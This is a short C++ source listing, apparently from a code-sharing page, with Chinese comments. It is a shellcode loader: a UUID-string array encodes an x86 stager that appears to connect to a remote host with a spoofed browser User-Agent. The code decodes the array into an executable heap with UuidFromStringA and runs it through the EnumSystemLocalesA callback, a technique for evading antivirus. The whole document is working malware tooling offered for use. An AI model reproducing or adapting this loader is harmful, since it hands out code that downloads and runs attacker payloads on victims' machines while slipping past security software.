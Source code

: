 ```
const char* uuids[] = { "0089e8fc-0000-8960-e531-d2648b52308b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c7e2f05257","8b10528b-3c42-d001-8b40-7885c0744a01","488b50d0-8b18-2058-01d3-e33c498b348b","ff31d601-c031-c1ac-cf0d-01c738e075f4","3bf87d03-247d-e275-588b-582401d3668b","588b4b0c-011c-8bd3-048b-01d089442424","59615b5b-515a-e0ff-585f-5a8b12eb865d","74656e68-6800-6977-6e69-54684c772607","ff31d5ff-5757-5757-5768-3a5679a7ffd5","000084e9-5b00-c931-5151-6a0351516850","53000000-6850-8957-9fc6-ffd5eb705b31","006852d2-4002-5284-5252-53525068eb55","d5ff3b2e-c689-c383-5031-ff57576aff53","062d6856-7b18-d5ff-85c0-0f84c3010000","f685ff31-0474-f989-eb09-68aac5e25dff","68c189d5-2145-315e-ffd5-31ff576a0751","b7685056-e057-ff0b-d5bf-002f000039c7","ff31b774-91e9-0001-00e9-c9010000e88b","2fffffff-6b31-566a-00fe-dc7a2d31c9e7","42b51e28-625f-f5a3-6442-792da2d8f774","c764c1ca-fec2-b232-360a-a0904efad447","d98ba404-65e6-8fa1-bee4-b69563f0b446","60f88520-b15e-a0f8-59ef-9eb2c6e6f95d","5500078e-6573-2d72-4167-656e743a204d","6c697a6f-616c-352f-2e30-2028636f6d70","62697461-656c-203b-4d53-49452031302e","57203b30-6e69-6f64-7773-204e5420362e","57203b32-574f-3436-3b20-54726964656e","2e362f74-3b30-5420-6f75-63683b204d41","534a5053-0d29-000a-91a8-10b7da807fab","2f1623c7-614b-ebbd-a514-6f904bdf5a58","1f5557e0-6adb-7456-c2a1-9c9f32da910d","952d1001-8eef-7249-3a2b-9e598e85a6ad","98c69cb6-7d10-1f09-60a3-4aeabe4af549","d618c78a-2260-1751-b8d6-61d38a81373e","3d1c3d6a-f3c5-57a0-0204-4457c1142371","6c8708c2-6b94-c189-d92b-cc6b62253fbb","f102569f-4d54-914d-4e89-5bda5ff092a5","cfafb2ac-e2bb-b0af-ca5b-08834c927ab5","07d2b997-8fc9-80b7-fc26-3da3d19e2942","780bcd05-11c2-4f86-6657-dae24b98cc46","febde54d-2cc7-d3c4-e5c0-f943cad41d5a","6800da73-b5f0-56a2-ffd5-6a4068001000","00006800-0040-6857-58a4-53e5ffd593b9","00000000-d901-5351-89e7-576800200000","12685653-8996-ffe2-d585-c074c68b0701","75c085c3-58e5-e8c3-a9fd-ffff31302e31","32342e39-312e-3434-0012-345678000000" }; 
int main()
{
  HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);//获得可执行的句柄
  void* ha = HeapAlloc(hc, 0, 0x100000);//申请堆空间
  if (ha == NULL)
  {
    cout << "内存申请失败！" << endl;
    return 0;
  }
  DWORD_PTR hptr = (DWORD_PTR)ha;
  int elems = sizeof(uuids) / sizeof(uuids[0]);//获得需要写入uuids数组元素个数
  for (int i = 0; i < elems; i++)
  {
    //cout << (RPC_CSTR)uuids[i] << endl;
    //cout << (UUID*)hptr << endl;
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);//写入shellcode
      if (status != RPC_S_OK)//判断是否写入正常
      {
        cout << "UuidFromeStringA()!=S_OK" << endl;
        CloseHandle(ha);
          return -1;
      }
    hptr += 16;
  }
  //((void(*)())ha)();
  EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);//回调函数,运行shellcode
  CloseHandle(ha);
  return 0;
}

```
